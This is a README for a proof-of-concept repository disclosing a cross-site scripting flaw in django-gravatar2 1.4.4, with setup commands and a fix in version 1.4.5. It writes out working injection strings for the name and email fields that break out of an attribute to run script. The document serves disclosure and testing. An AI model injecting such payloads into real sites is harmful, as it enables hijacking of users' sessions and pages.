# Proof of concept for a XSS vulnerability in django-gravatar2 1.4.4

You can read the full post [here](https://stsewd.dev/posts/xss-in-djang-impersonate-and-django-gravatar2/).

## Requirements

- Python
- [uv](https://docs.astral.sh/uv/getting-started/installation/)

## Set up

```bash
$ git clone https://github.com/stsewd/poc-xss-django-gravatar2
$ cd poc-xss-django-gravatar2
$ uv run manage.py migrate
$ uv run manage.py runserver
```

## Proof of concept

- Go to `http://127.0.0.1:8000/`
- In the form enter `"/><script>alert(document.domain)</script><img src="` as the name,
  or `"/><script>alert(document.domain)</script><img/src="@example.com` as the email.
- Click on the "Submit" button
- A popup with the domain of the page should appear

Try updating the project to use django-gravatar2 1.4.5, and repeat the steps to see that the vulnerability is fixed.

```bash
$ uv add django-gravatar2==1.4.5
```
